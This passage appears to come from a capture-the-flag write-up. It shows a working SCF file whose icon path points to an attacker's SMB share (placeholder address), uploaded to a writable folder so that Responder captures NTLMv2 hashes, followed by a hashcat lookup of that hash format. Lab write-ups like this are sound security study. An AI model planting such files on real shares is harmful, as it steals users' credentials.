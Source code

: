 

## responder

- now we know there are writable directories
- we can create a scf file which will pass the hash to us

[for more information](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/#:~:text=SMB%20is%20a%20protocol%20which,passwords%20and%20database%20connection%20strings.)

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```



- upload it on public folder and wait for any hashes to come

![image-20200914225454581](sizzle.assets/image-20200914225454581.png)



## hashcat



```
hashcat --example-hashes | grep -A3 -B3 -i ntlmv2
```

![image-20200914225738893](sizzle.assets/image-20200914225738893.png)
